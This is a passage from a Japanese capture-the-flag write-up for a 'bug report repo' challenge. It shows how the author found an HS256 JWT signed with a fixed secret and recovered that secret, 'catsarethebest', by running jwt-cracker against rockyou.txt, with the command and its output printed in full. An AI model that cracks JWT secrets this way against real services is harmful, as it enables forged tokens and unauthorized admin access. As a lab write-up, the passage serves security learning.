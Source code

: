 ログイン情報も書いてあったのでログインしてみると、`only viewable by admin`と表示されました。  
どうやらadminでログインする必要があるようです。

![bug report repo 03](./images/bugreportrepo_03.png)

認証時にJWTが発行されており、それをCookieに付けて送っていることを確認しました。
None攻撃は使えませんでしたが、`alg`が`HS256`であり、何度ログインしても同じJWTが発行されていたため、固定文字列をシークレットとして付与してJWTを発行しているのではないかと推測しました。

ということで、辞書攻撃でシークレットを探してみると、`catsarethebest`であることが分かりました。

- 利用ツール：[jwt-cracker](https://github.com/lmammino/jwt-cracker)

```sh
$ jwt-cracker -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I -d rockyou.txt
Attempts: 100000 (90K/s last attempt was 'hihih')
Attempts: 200000 (141K/s last attempt was 'ftwftw')
Attempts: 300000 (162K/s last attempt was 'locoroco')
Attempts: 400000 (201K/s last attempt was 'copperkitten')
Attempts: 500000 (213K/s last attempt was 'MATTHEW2')
Attempts: 600000 (178K/s last attempt was '081921')
Attempts: 700000 (182K/s last attempt was 'superson')
Attempts: 800000 (188K/s last attempt was 'saulon')
Attempts: 900000 (204K/s last attempt was 'littleyoda')
SECRET FOUND: catsarethebest
Time taken (sec): 4.491
Total attempts: 920000
```
